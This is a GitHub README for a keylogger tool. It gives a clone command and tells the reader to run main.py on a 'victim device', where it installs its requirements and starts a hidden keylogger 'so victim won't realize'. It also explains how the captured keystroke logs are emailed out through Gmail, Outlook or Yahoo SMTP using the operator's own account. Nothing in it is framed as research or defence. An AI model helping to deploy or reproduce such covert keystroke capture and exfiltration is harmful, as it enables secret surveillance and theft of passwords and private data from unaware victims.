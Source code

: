 # Keylogger

## Install 

    git clone https://github.com/OldKokoroz/Keylogger.git


## Setup

To try on your device run Keylogger.py 

to run on your victim device run main.py it will install requirements and 
automatically run keylogger.pyw (without a terminal) so victim won't realize 


## Getting log file 

Server Name 	SMTP Server 	        SMTP Port
GMAIL 	        smtp.gmail.com 	        587
OUTLOOK 	    smtp-mail.outlook.com 	587
YAHOO 	        smtp.mail.yahoo.com 	587


You have to :

- open a new gmail account

         mail_send(your-email@gmail.com, your-passwd, log_msg)  ---- Do not touch log_msg

- enter your address instead of first ""

- enter your password instead of second ""

- It is set to send mails to the mail you give (that means you send logs to yourself with your account)
